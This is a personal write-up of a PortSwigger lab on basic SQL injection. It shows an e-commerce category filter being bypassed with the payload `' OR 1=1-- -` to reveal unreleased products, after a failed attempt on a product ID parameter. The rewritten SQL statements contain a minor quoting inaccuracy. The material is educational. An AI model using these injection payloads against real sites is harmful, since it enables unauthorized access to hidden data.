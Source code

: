 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data | Dec 3, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data), you'll learn: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032350.png)

**View-source:**
```html
<div theme="ecommerce">
            <section class="maincontainer">
                <div class="container">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href=/>Home</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <section class="ecoms-pageheader">
                        <img src="/resources/images/shop.svg">
                    </section>
                    <section class="search-filters">
                        <label>Refine your search:</label>
                        <a href="/">All</a>
                        <a href="/filter?category=Food+%26+Drink">Food & Drink</a>
                        <a href="/filter?category=Gifts">Gifts</a>
                        <a href="/filter?category=Lifestyle">Lifestyle</a>
                        <a href="/filter?category=Pets">Pets</a>
                    </section>
                    <section class="container-list-tiles">
                        <div>
                            <img src="/image/productcatalog/products/20.jpg">
                            <h3>Single Use Food Hider</h3>
                            <img src="/resources/images/rating3.png">
                            $58.56
                            <a class="button" href="/product?productId=9">View details</a>
                        </div>
                        <div>
                            <img src="/image/productcatalog/products/23.jpg">
                            <h3>Sprout More Brain Power</h3>
                            <img src="/resources/images/rating2.png">
                            $90.82
                            <a class="button" href="/product?productId=14">View details</a>
                        </div>
                        <div>
                            <img src="/image/productcatalog/products/52.jpg">
                            <h3>Hydrated Crackers</h3>
                            <img src="/resources/images/rating2.png">
                            $11.66
                            <a class="button" href="/product?productId=19">View details</a>
                        </div>
                        [...]
```

As you can see, **there is a `filter` page that accepts `category` GET parameter, and a `product` page that accepts `productId` GET parameter.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032838.png)

Hmm... What if I clicked one of the `View details` buttons?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203032910.png)

**It brings me to the `product` page with the `productId` GET parameter value `9`.**

What if I change the `9` to `1`?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033024.png)

Hmm... Nothing weird.

**How about testing it for it is vulnerable to SQL injection?**

**Imagine this is the SQL statement of the `productId`:**
```sql
SELECT * FROM products WHERE productId = '1'
```

**What if I close that string with `'`, then returns always true via `OR 1=1`, then commented out the rest of the SQL statement?**

**Payload:**
```sql
/product?productId=1' OR 1=1-- -
```

**New SQL statement:**
```sql
SELECT * FROM products WHERE productId = ''' OR 1=1-- -
```

Will it returns every products?

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033129.png)

Hmm... Nope. It requires a valid product ID.

**How about the `filter` page?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033640.png)

**Let's click the `Pets` filter!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203033708.png)

**Now the GET parameter value will be: `Pets`**

**Also, let's go back to the SQL statement that the lab gave us:**
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

**Hmm... Again, what if I let it returns always true via the `OR` clause?**  

**Payload:**
```sql
/filter?category=' OR 1=1-- -
```

**New SQL statement:**
```sql
SELECT * FROM products WHERE category = ''' OR 1=1-- - AND released = 1
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203034318.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-1/images/Pasted%20image%2020221203034331.png)

**Now we can see there are some unreleased items!!**

# Conclusion

What we've learned:

1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data